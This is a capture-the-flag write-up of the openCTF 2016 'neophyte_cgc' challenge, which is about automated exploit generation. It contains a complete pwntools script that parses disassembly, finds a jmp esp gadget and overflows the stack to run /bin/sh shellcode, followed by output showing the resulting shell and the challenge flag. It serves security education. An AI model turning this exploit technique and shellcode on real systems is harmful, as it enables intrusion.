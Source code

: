 ```yaml
---
layout: post
title: openCTF 2016 - neophyte_cgc
category: [Exploitation]
tags: [Exploitation, openCTF]
comments: true
---
```


**Points:** 300
**Solves:** 
**Category:** Exploitation, CRS
**Description:** CRS (Cyber Reasoning System) are all the rage (and going on right now)
... but they only have 7 syscalls
....we're giving you 190. Good luck.
Server: 172.31.1.46:1622

> [neophyte_cgc]({{site.url}}/assets/neophyte_cgc)

Neophyte_cgc challenge was the easier version of [apprentice_cgc]({{site.url}}/exploitation/2016/08/05/openCTF-apprentice_cgc.html), challenge is about AEG (Automated Exploit Generation).

When connecting to the server, we get a different binary. Well, kinda same same... but different ;). In `main` there's a single byte being checked as a password. If correct byte is supplied execution branches to the `vulnerable` function. If not we return.

![main]({{site.url}}/assets/screen-openctf-5.png)

Vulnerable function just line [apprentice_cgc]({{site.url}}/exploitation/2016/08/05/openCTF-apprentice_cgc.html) has a classic stack overflow with Canaries, NX and ASLR exploit mitigation disabled. One difference is that neophyte binary does not provide us with the address of the stack buffer so we need to find a gadget...

Also the stack frame of the `vulnerable` function is different size on every new binary, so we have to calculate this from the objdump output.

![vuln]({{site.url}}/assets/screen-openctf-6.png)

# Solution

Again, I'm using a ghetto but method that works fast.

1. Connect to the server and get generated binary
2. Drop the binary to disk and analyze it with objdump
3. Send the correct 1 byte password
4. Calculate the stack frame of the vulnerable function from the objdump output
5. Generate shellcode and pwn ;)

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

# flag DontGetAngr_y___IT_WILL_GET_WORSE

def exploit(r):
  if len(sys.argv) > 1:      # if remote, get the binary from server and store it on disk
    r.recvuntil("Neophyte CGC - Baby's first CRS (Cyber Reasoning System)\n")
    binary = r.recvuntil('Can you exploit me in under 10 seconds?\n')

    ofile = open('neo_drop', 'wb')
    ofile.write(binary)
    ofile.close()

  else:                                   # if trying to pwn locally, use local copy
    binary = bytearray(open('neo_drop', 'r').read())
  
  entry = u32(binary[0x18:0x18+4])        # get entry ptr from elf header
  log.info("Entry point: " + hex(entry))
                                        # use objdump to store disassembly output in variable
  output = subprocess.Popen(["objdump", "-d", "-M", "intel", "neo_drop"], stdout=subprocess.PIPE).communicate()[0].split('\n')

  for line in range(len(output)):
    l = output[line].split(' ')
    if '<vulnerable>:' in l:            # Parse disassembly output to find vulnerable func
      stack = int(output[line+3].split(' ')[-1].split(',')[-1], 16) + 4 # get the sub distance
      if 'sub' in output[line+5]:       # if another sub
        stack += int(output[line+5].split(' ')[-1].split(',')[-1], 16)
      for lv in range(15):
        if 'lea ' in output[line+lv]:   # find offset of local buffer
          bufOffset = int(output[line+lv].split(' ')[-1].split(',')[-1].split('-')[-1].strip(']'), 16)
    if '<main>:' in output[line]:
      for i in range(30):
        if 'getchar' in output[line+i]:
          for x in range(5):
            if 'cmp' in output[line+i+x]: # find 1 byte password
              canary_byte = chr(int(output[line+i+x].split(',')[-1], 16))
              print canary_byte
    if '<__libc_csu_init>:' in l:       # Using this as low boundary 
      break
                                        # Use ROPgadget to find jmp/call esp gadget
  rop_gadget = subprocess.Popen(["ROPgadget", "--binary", "neo_drop", "--only", "jmp|call"], stdout=subprocess.PIPE).communicate()[0].split('\n')

  for line in rop_gadget:
    if 'jmp esp' in line or 'call esp' in line:
      gadget = int(line.split(' ')[0], 16)   # Get addr of gadget
      log.info("Rop gadget found: " + line)

  r.send(canary_byte)                   # Send 1 byte password
  r.recvuntil('good gatekeeper')        # Expect GoodBoy message

  offset = stack - (stack - bufOffset)  # Calculate size of garbage in shellcode

  payload = "A" * offset
  payload += "BBBB"
  payload += p32(gadget)
  payload += ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
          "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")

  r.sendline(payload)

  r.interactive()


if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/vagrant/openCTF/neophyte_cgc'])
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

{% highlight text %}
➜  openCTF python ./neophyte_solution.py
[*] For remote: ./neophyte_solution.py HOST PORT
[+] Starting program '/vagrant/openCTF/neophyte_cgc': Done
[1902]
[*] Paused (press any to continue)
[*] Entry point: 0x8048420
l
[*] Rop gadget found: 0x080486bf : jmp esp
[*] Switching to interactive mode

$ id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant)
$
{% endhighlight %}